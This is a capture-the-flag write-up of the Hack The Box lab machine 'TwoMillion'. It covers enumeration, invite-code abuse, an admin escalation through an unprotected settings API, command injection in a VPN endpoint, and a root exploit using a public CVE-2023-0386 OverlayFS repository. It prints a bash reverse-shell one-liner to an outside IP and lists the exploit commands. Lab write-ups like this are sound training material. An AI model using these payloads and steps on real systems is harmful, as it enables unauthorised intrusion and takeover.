

# Overview

- Name: TwoMillion
- OS: Linux
- Difficulty: **<span style="color:green">Easy</span>**

# Enumeration

## PortScan

To start, I ran the `nmap` command to get all **open ports** on the machine. 

```bash
nmap -p- -sV -sC --min-rate=1000 -oA nmap/nmap -v 10.10.11.221
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx
|_http-title: Hack The Box :: Penetration Testing Labs
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

When trying to open the webpage, the site redirected me to `2million.htb`. After adding this to the _/etc/hosts_ file, we can see the main page in _Figure 1_:


> _Figure 1_: **_2million.htb_ main page.**

It seems to be a version of the official **HackTheBox website**. We can see a **login page** that doesn't seems to be vulnerable to SQL injection, and obvious credentials don't work either. Further navigation reveals the `/invite` page, which returns an _alert_ saying the code is invalid.


> _Figure 2_: **Login page.**


> _Figure 3_: **Invite page.**


I needed more information so, I started brute forcing directories with `ffuf`: 
```bash
ffuf -u http://2million.htb/FUZZ -w /seclists/Discovery/Web-Content/raft-small-words.txt -e php -r -fs 1674

login                   [Status: 200, Size: 3704, Words: 1365, Lines: 81, Duration: 203ms]
images                  [Status: 403, Size: 146, Words: 3, Lines: 8, Duration: 156ms]
js                      [Status: 403, Size: 146, Words: 3, Lines: 8, Duration: 155ms]
register                [Status: 200, Size: 4527, Words: 1512, Lines: 95, Duration: 157ms]
css                     [Status: 403, Size: 146, Words: 3, Lines: 8, Duration: 154ms]
logout                  [Status: 200, Size: 64952, Words: 28274, Lines: 1243, Duration: 160ms]
api                     [Status: 401, Size: 0, Words: 1, Lines: 1, Duration: 158ms]
home                    [Status: 200, Size: 64952, Words: 28274, Lines: 1243, Duration: 157ms]
assets                  [Status: 403, Size: 146, Words: 3, Lines: 8, Duration: 155ms]
fonts                   [Status: 403, Size: 146, Words: 3, Lines: 8, Duration: 155ms]
views                   [Status: 200, Size: 64952, Words: 28274, Lines: 1243, Duration: 158ms]
VPN                     [Status: 403, Size: 146, Words: 3, Lines: 8, Duration: 155ms]
```
:::information
To enumerate with `ffuf`, we need to specify the options `-r` (to follow redirects) and `-fs 1674`(To remove all outputs with size 1674, with is the size of the main page on the website).
:::

We can see that the `ffuf` found the **register** page, but we are **unable to register** because we need the **invite code** as demonstrated in _Figure 4__.


> _Figure 4_: **Register page.**

## Invite code

Once again, we needed more information. I took a step back and started the web proxy `Caido` to see more details about the requests we send earlier. All the `POST` requests are sent to somes `api/*` endpoints as the __Figure 5__ demostrate.


> _Figure 5_: **API endpoints.**

Knowning about the api endpoint, I returned to **directory brute forcing** with _ffuf_, but this time using the wordlists for __APIs__ in __seclists__ repository. After finding nothing interesting with brute forcing `/api/` and `/api/v1/`, I finally found the endpoint `/api/v1/invite/generate`. Crafting a `POST` request to it with _Caido_, we can generate a invite code, as demonstrated in __Figure 6__.  

```bash
ffuf -u http://2million.htb/api/v1/invite/FUZZ -w /seclists/Discovery/Web-Content/api/actions-lowercase.txt -r -fs 1674

generate                [Status: 405, Size: 0, Words: 1, Lines: 1, Duration: 163ms]
verify                  [Status: 405, Size: 0, Words: 1, Lines: 1, Duration: 158ms]
```

> _Figure 6_: **Getting a invite code.**

Using this invite code, **decode** it from _base64_ and input it on the `/invite` page. We are redirected to `/register`, and after entering a valid username, email and password, we have a **valid user account** on the site. 


> _Figure 7_: **Homepage after login.**

# Foothold
After navigating the page and seeing the directories that **don't** redirect us to `/home#`, I found the `/access` one, which has two options: downloading a "Connection Pack" or "Regenerate" it, in more **APIs** endpoints, demostrated on __Figure 8__.


> _Figure 8_: **VPN API endpoints.**

After brute forcing a lot on these directories and **not** find anything, I took another step back. After some time, I found out that requests with my **new cookies** on endpoints like `/api` and `/api/v1` give us **all API endpoints** the server have. We can see that here:

```json
http GET http://2million.htb/api/v1 Cookie:'PHPSESSID=2fk46fu7jkl9bmr0ia8cc24cmi'
{
    "v1": {
        "admin": {
            "GET": {
                "/api/v1/admin/auth": "Check if user is admin"
            },
            "POST": {
                "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
            },
            "PUT": {
                "/api/v1/admin/settings/update": "Update user settings"
            }
        },
        "user": {
            "GET": {
                "/api/v1": "Route List",
                "/api/v1/invite/generate": "Generate invite code",
                "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
                "/api/v1/invite/verify": "Verify invite code",
                "/api/v1/user/auth": "Check if user is authenticated",
                "/api/v1/user/vpn/download": "Download OVPN file",
                "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
                "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration"
            },
            "POST": {
                "/api/v1/user/login": "Login with existing user",
                "/api/v1/user/register": "Register a new user"
            }
        }
    }
}
```
:::note
The tool I use, `http` is from package `httpie` and is just a `curl` in Python with a more readable output.
:::

The ones that caught my attention were the `/admin/*` ones. The **GET** to `/auth` just returns a boolean value saying if our account have admin permissions(Return **False** when we try). The **POST** to `/vpn/generate` seems to generate a VPN file, but only admin accounts have permissions to do this.
The **PUT** to `/settings/update` is the most intesting one. After send a request, it requires us to send the parameters `email` and `is_admin`. Sending the email with the one we created the account with and setting _is admin_ to `1`, we upgrade our account to admin as we can see in __Figure 9__.
l


> _Figure 9_: **Request that upgrades account to 'admin'.**

Now, going back to `/auth` returns _True_, and `/vpn/generate` ask our to send the parameter `username`. After playing with it, we can send the payload in the _username_ parameter `${sleep 5}` and the server takes more than 5 seconds to return. this means we have a **RCE**. I use the following commands to craft a payload and send it with Caido as demostrate on __Figure 10__, and get the reverse shell.
```bash
echo "bash  -i >& /dev/tcp/10.10.14.166/443  0>&1 " | base64
#YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTY2LzQ0MyAgMD4mMSAK
nc -ltnp 443
```

> _Figure 10_: **Request that sends a reverse shell.**

# Privilege Escalation

The shell return to us in the directory `/var/www/html`. Running `ls -la`, we can see the file `.env` and inside this file have the user credentials, as shown in _Figure 11_.


> _Figure 11_: **Password of the user 'admin'.**

Now we can `ssh` into the machine using the username `admin` and the its password. After manually enumerating for a while, I eventually checked the folder `/var/mail` (Always look there, it can have some easy wins), and it is not empty. The file `/var/mail/admin` have the following contents: 

```bash
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. 
While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. 
That one in OverlayFS / FUSE looks nasty. 
We can't get popped by that.

HTB Godfather
```

This is a obvious tip that the machine is vulnerable to some CVE affecting `OverlayFS / FUSE`. The [CVE-2023-0386](https://ubuntu.com/security/CVE-2023-0386), on this Ubuntu site details the affected versions:
> "jammy	Released (5.15.0-70.77)"
This matches the output of the following commands:
```bash
$uname -a 
Linux 2million 5.15.70-051570-generic #202209231339 SMP Fri Sep 23 13:45:37 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux

$lsb_release -a 
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 22.04.2 LTS
Release:	22.04
Codename:	jammy
```
Now that we've confirmed it's really vulnerable, we can search for exploits on Google or use [Spoitus](https://sploitus.com). I eventually got to this github repository:

::github{repo=sxlmnwb/CVE-2023-0386}

I cloned it to my machine, removed the `.git` folder, and send it to the victim machine with _scp_:
```bash
git clone https://github.com/sxlmnwb/CVE-2023-0386.git
cd CVE-2023-0386
rm -rf .git
scp -r CVE-2023-0386 admin@2million.htb:/tmp/
```

Following the instructions given in the README file of that repository, I has able to get a root shell:
```bash
cd /tmp/CVE-2023-0386
make all

#Opening another SSH connection in another terminal
ssh admin@2million.htb
cd /tmp/CVE-2023-0386

#First terminal
./fuse ./ovlcap/lower ./gc

#Second terminal
./exp
```

And with that, we get the root flag on `/root/root.txt`.


> _Figure 11_: **Getting the Root flag.**

# Extra

Inside the `/root` directory, we can see an unusual file called `thank_you.json`.

> thank_you.json:
```json
{"encoding": "url", 
"data": "%7B%22encoding%22:%20%22hex%22,%20%22data%22:%20%227b22656e6372797074696f6e223a2022786f72222c2022656e6372707974696f6e5f6b6579223a20224861636b546865426f78222c2022656e636f64696e67223a2022626173653634222c202264617461223a20224441514347585167424345454c43414549515173534359744168553944776f664c5552765344676461414152446e51634454414746435145423073674230556a4152596e464130494d556745596749584a51514e487a7364466d494345535145454238374267426942685a6f4468595a6441494b4e7830574c526844487a73504144594848547050517a7739484131694268556c424130594d5567504c525a594b513848537a4d614244594744443046426b6430487742694442306b4241455a4e527741596873514c554543434477424144514b4653305046307337446b557743686b7243516f464d306858596749524a41304b424470494679634347546f4b41676b344455553348423036456b4a4c4141414d4d5538524a674952446a41424279344b574334454168393048776f334178786f44777766644141454e4170594b67514742585159436a456345536f4e426b736a41524571414130385151594b4e774246497745636141515644695952525330424857674f42557374427842735a58494f457777476442774e4a30384f4c524d61537a594e4169734246694550424564304941516842437767424345454c45674e497878594b6751474258514b45437344444767554577513653424571436c6771424138434d5135464e67635a50454549425473664353634c4879314245414d31476777734346526f416777484f416b484c52305a5041674d425868494243774c574341414451386e52516f73547830774551595a5051304c495170594b524d47537a49644379594f4653305046776f345342457454776774457841454f676b4a596734574c4545544754734f414445634553635041676430447863744741776754304d2f4f7738414e6763644f6b31444844464944534d5a48576748444267674452636e4331677044304d4f4f68344d4d4141574a51514e48335166445363644857674944515537486751324268636d515263444a6745544a7878594b5138485379634444433444433267414551353041416f734368786d5153594b4e7742464951635a4a41304742544d4e525345414654674e4268387844456c6943686b7243554d474e51734e4b7745646141494d425355644144414b48475242416755775341413043676f78515241415051514a59674d644b524d4e446a424944534d635743734f4452386d4151633347783073515263456442774e4a3038624a773050446a63634444514b57434550467734344241776c4368597242454d6650416b5259676b4e4c51305153794141444446504469454445516f36484555684142556c464130434942464c534755734a304547436a634152534d42484767454651346d45555576436855714242464c4f7735464e67636461436b434344383844536374467a424241415135425241734267777854554d6650416b4c4b5538424a785244445473615253414b4553594751777030474151774731676e42304d6650414557596759574b784d47447a304b435364504569635545515578455574694e68633945304d494f7759524d4159615052554b42446f6252536f4f4469314245414d314741416d5477776742454d644d526f6359676b5a4b684d4b4348514841324941445470424577633148414d744852566f414130506441454c4d5238524f67514853794562525459415743734f445238394268416a4178517851516f464f676354497873646141414e4433514e4579304444693150517a777853415177436c67684441344f4f6873414c685a594f424d4d486a424943695250447941414630736a4455557144673474515149494e7763494d674d524f776b47443351634369554b44434145455564304351736d547738745151594b4d7730584c685a594b513858416a634246534d62485767564377353043776f334151776b424241596441554d4c676f4c5041344e44696449484363625744774f51776737425142735a5849414242454f637874464e67425950416b47537a6f4e48545a504779414145783878476b6c694742417445775a4c497731464e5159554a45454142446f6344437761485767564445736b485259715477776742454d4a4f78304c4a67344b49515151537a734f525345574769305445413433485263724777466b51516f464a78674d4d41705950416b47537a6f4e48545a504879305042686b31484177744156676e42304d4f4941414d4951345561416b434344384e467a464457436b50423073334767416a4778316f41454d634f786f4a4a6b385049415152446e514443793059464330464241353041525a69446873724242415950516f4a4a30384d4a304543427a6847623067344554774a517738784452556e4841786f4268454b494145524e7773645a477470507a774e52516f4f47794d3143773457427831694f78307044413d3d227d%22%7D"}
```

We can see that it is URL encoded and then in hex format. Going to [CyberChef](https://gchq.github.io/CyberChef/), pasting the file, and make the following **Recipe**:   


> _Figure 12_: **Recipe from CyberChef.**

We get another encoded data! This time seems to be **base64** and **xor** with the key 'HackTheBox':

>CyberChef output
```json
{"encryption": "xor",
"encrpytion_key": "HackTheBox",
"encoding": "base64", 
"data": "DAQCGXQgBCEELCAEIQQsSCYtAhU9DwofLURvSDgdaAARDnQcDTAGFCQEB0sgB0UjARYnFA0IMUgEYgIXJQQNHzsdFmICESQEEB87BgBiBhZoDhYZdAIKNx0WLRhDHzsPADYHHTpPQzw9HA1iBhUlBA0YMUgPLRZYKQ8HSzMaBDYGDD0FBkd0HwBiDB0kBAEZNRwAYhsQLUECCDwBADQKFS0PF0s7DkUwChkrCQoFM0hXYgIRJA0KBDpIFycCGToKAgk4DUU3HB06EkJLAAAMMU8RJgIRDjABBy4KWC4EAh90Hwo3AxxoDwwfdAAENApYKgQGBXQYCjEcESoNBksjAREqAA08QQYKNwBFIwEcaAQVDiYRRS0BHWgOBUstBxBsZXIOEwwGdBwNJ08OLRMaSzYNAisBFiEPBEd0IAQhBCwgBCEELEgNIxxYKgQGBXQKECsDDGgUEwQ6SBEqClgqBA8CMQ5FNgcZPEEIBTsfCScLHy1BEAM1GgwsCFRoAgwHOAkHLR0ZPAgMBXhIBCwLWCAADQ8nRQosTx0wEQYZPQ0LIQpYKRMGSzIdCyYOFS0PFwo4SBEtTwgtExAEOgkJYg4WLEETGTsOADEcEScPAgd0DxctGAwgT0M/Ow8ANgcdOk1DHDFIDSMZHWgHDBggDRcnC1gpD0MOOh4MMAAWJQQNH3QfDScdHWgIDQU7HgQ2BhcmQRcDJgETJxxYKQ8HSycDDC4DC2gAEQ50AAosChxmQSYKNwBFIQcZJA0GBTMNRSEAFTgNBh8xDEliChkrCUMGNQsNKwEdaAIMBSUdADAKHGRBAgUwSAA0CgoxQRAAPQQJYgMdKRMNDjBIDSMcWCsODR8mAQc3Gx0sQRcEdBwNJ08bJw0PDjccDDQKWCEPFw44BAwlChYrBEMfPAkRYgkNLQ0QSyAADDFPDiEDEQo6HEUhABUlFA0CIBFLSGUsJ0EGCjcARSMBHGgEFQ4mEUUvChUqBBFLOw5FNgcdaCkCCD88DSctFzBBAAQ5BRAsBgwxTUMfPAkLKU8BJxRDDTsaRSAKESYGQwp0GAQwG1gnB0MfPAEWYgYWKxMGDz0KCSdPEicUEQUxEUtiNhc9E0MIOwYRMAYaPRUKBDobRSoODi1BEAM1GAAmTwwgBEMdMRocYgkZKhMKCHQHA2IADTpBEwc1HAMtHRVoAA0PdAELMR8ROgQHSyEbRTYAWCsODR89BhAjAxQxQQoFOgcTIxsdaAAND3QNEy0DDi1PQzwxSAQwClghDA4OOhsALhZYOBMMHjBICiRPDyAAF0sjDUUqDg4tQQIINwcIMgMROwkGD3QcCiUKDCAEEUd0CQsmTw8tQQYKMw0XLhZYKQ8XAjcBFSMbHWgVCw50Cwo3AQwkBBAYdAUMLgoLPA4NDidIHCcbWDwOQwg7BQBsZXIABBEOcxtFNgBYPAkGSzoNHTZPGyAAEx8xGkliGBAtEwZLIw1FNQYUJEEABDocDCwaHWgVDEskHRYqTwwgBEMJOx0LJg4KIQQQSzsORSEWGi0TEA43HRcrGwFkQQoFJxgMMApYPAkGSzoNHTZPHy0PBhk1HAwtAVgnB0MOIAAMIQ4UaAkCCD8NFzFDWCkPB0s3GgAjGx1oAEMcOxoJJk8PIAQRDnQDCy0YFC0FBA50ARZiDhsrBBAYPQoJJ08MJ0ECBzhGb0g4ETwJQw8xDRUnHAxoBhEKIAERNwsdZGtpPzwNRQoOGyM1Cw4WBx1iOx0pDA=="}
```

This time, I removed everything else and kept only the __base64 data__ **value**. Using the following recipe, we get the clear text message from HackTheBox team:


> _Figure 13_: **Final Recipe from CyberChef.**


## HackTheBox full message
>Dear HackTheBox Community,

>We are thrilled to announce a momentous milestone in our journey together. With immense joy and gratitude, we celebrate the achievement of reaching 2 million remarkable users! This incredible feat would not have been possible without each and every one of you.

>From the very beginning, HackTheBox has been built upon the belief that knowledge sharing, collaboration, and hands-on experience are fundamental to personal and professional growth. Together, we have fostered an environment where innovation thrives and skills are honed. Each challenge completed, each machine conquered, and every skill learned has contributed to the collective intelligence that fuels this vibrant community.

>To each and every member of the HackTheBox community, thank you for being a part of this incredible journey. Your contributions have shaped the very fabric of our platform and inspired us to continually innovate and evolve. We are immensely proud of what we have accomplished together, and we eagerly anticipate the countless milestones yet to come.

>Here's to the next chapter, where we will continue to push the boundaries of cybersecurity, inspire the next generation of ethical hackers, and create a world where knowledge is accessible to all.

>With deepest gratitude,

>The HackTheBox Team

